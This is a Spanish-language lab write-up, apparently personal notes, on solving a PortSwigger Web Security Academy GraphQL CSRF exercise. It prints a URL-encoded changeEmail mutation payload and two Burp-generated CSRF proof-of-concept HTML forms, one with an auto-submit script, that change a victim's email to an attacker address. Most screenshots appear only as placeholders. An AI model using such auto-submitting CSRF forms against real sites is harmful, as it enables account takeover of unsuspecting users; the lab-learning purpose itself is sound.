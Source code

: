 ![[Pasted image 20230823135254.png]]

La unica solucion que hay disponible es la de Emanuel Picariello y uso incluso el payload de la resolucion oficial:

![[Pasted image 20230823135745.png]]

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D

![[Pasted image 20230823140519.png]]

![[Pasted image 20230823140541.png]]

![[Pasted image 20230823140605.png]]

![[Pasted image 20230823140622.png]]

![[Pasted image 20230823140650.png]]

![[Pasted image 20230823140739.png]]

![[Pasted image 20230823140754.png]]

vuelvo a mandar el endpoint al repeater y le cambio el metodo:

![[Pasted image 20230823140941.png]]

![[Pasted image 20230823141003.png]]

vuelvo a cambiarlo a POST:

![[Pasted image 20230823141049.png]]


![[Pasted image 20230823141137.png]]

aca usamos el payload de portswigger:

![[Pasted image 20230823142551.png]]

ahora hago un PoC de CSRF (click derecho, engagement options):

![[Pasted image 20230823142631.png]]

en el boton de options selecciono: Include auto submit script. Copio la parte del form y me voy al exploit server:

![[Pasted image 20230823142848.png]]

![[Pasted image 20230823142936.png]]

el script generado fue este:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8800b103de299b803fc6bc00830059.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker&#64;hacker&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

sin embargo no me funciono, a Picariello el Burp se lo generó asi:

    <form action="https://0a8800b103de299b803fc6bc00830059.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker&#64;hacker&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
<script>history.pushState('', '', '/');
document.forms[0].submit();
</script>

yo le moví la posición del script y agregé la función del submit y efectivamente funcionó:

![[Pasted image 20230823143307.png]]
